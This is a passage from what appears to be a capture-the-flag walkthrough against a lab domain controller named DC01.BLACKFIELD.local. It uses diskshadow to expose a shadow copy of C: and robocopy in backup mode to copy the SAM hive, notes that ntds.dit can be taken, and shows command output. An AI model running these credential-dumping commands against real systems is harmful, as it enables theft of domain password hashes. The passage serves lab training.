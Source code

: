 The `diskshadow.exe` command is executed using the script to create a shadow copy of the C: drive.

```bash
diskshadow.exe /s C:\ProgramData\temp\diskshadow.txt
```

The shadow copy has been successfully created and exposed as the Z: drive. The `ntds.dit` database can now be copied from `Z:\Windows\NTDS\ntds.dit`

```output
* Shadow copy ID = {39d5563e-f7a9-4db8-880c-ad24ae3ba07b}     %temp%
   - Shadow copy set: {6c3644df-4096-42eb-98ca-a14cc761df4f} %VSS_SHADOW_SET%
   - Original count of shadow copies = 1
   - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
   - Creation time: 10/30/2025 12:05:44 PM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
   - Originating machine: DC01.BLACKFIELD.local
   - Service machine: DC01.BLACKFIELD.local
   - Not exposed
   - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %temp% z:
-> %temp% = {39d5563e-f7a9-4db8-880c-ad24ae3ba07b}
The shadow copy was successfully exposed as z:\.
```

The `robocopy` command with the `/b` (backup mode) flag is used to copy the `SAM` hive from the shadow copy to `C:\temp`.

```bash
 robocopy /b Z:\Windows\System32\Config C:\temp SAM
```

The `SAM` hive has been successfully copied to `C:\temp`. Next, the `SYSTEM` hive should be copied using the same method.

```output
ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, October 30, 2025 12:06:53 PM
   Source : Z:\Windows\System32\Config\
     Dest : C:\temp\

    Files : SAM

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

    New Dir          1 Z:\Windows\System32\Config\
      New File       65536   SAM
  0%
100%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         1         0         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :    64.0 k    64.0 k         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :             4369066 Bytes/sec.
```